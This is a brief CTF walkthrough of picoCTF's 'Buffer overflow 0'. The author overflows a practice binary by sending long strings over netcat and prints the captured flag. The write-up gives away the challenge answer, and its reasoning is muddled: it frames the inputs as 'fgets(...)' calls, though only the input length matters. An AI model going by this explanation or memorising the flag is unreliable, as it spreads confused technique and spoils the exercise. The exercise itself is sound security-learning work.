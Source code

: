 # Buffer overflow 0
this challenge has asked us to overflow the caorrect buffer. Now overflow buffer occurs when the amount of data in the buffer exceeds the maximum storage.
I also refered the man page of `gets()` to know more about it.
The man page recommends the use of `fgets()` rather than `gets()` because of security reasons.
When we run the challenge instance, it asks us to give an input.

```bash
muizz@LAPTOP-VF1FT9IQ:~$ man gets
No manual entry for gets
muizz@LAPTOP-VF1FT9IQ:~$ nc saturn.picoctf.net 52118
Input: man gets
The program will exit now

muizz@LAPTOP-VF1FT9IQ:~$ nc saturn.picoctf.net 52118
Input: fgets(test)
The program will exit now

muizz@LAPTOP-VF1FT9IQ:~$ https://artifacts.picoctf.net/c/172/vuln.c
-bash: https://artifacts.picoctf.net/c/172/vuln.c: No such file or directory
muizz@LAPTOP-VF1FT9IQ:~$ nc saturn.picoctf.net 52118
Input: fgets(akdfbiueh18273n29384u*&%#&)
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
Here i entered a string which contained alphabets,numbers and some special characters, and when run it, it caused the buffer overflow and gave me the flag.
I tried again but with a different string and got the flag.

```bash
muizz@LAPTOP-VF1FT9IQ:~$ nc saturn.picoctf.net 52118
Input: fgets(isufdhnaeu82734skjdfnh92*@#&$^!)
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

This is how I solved it.

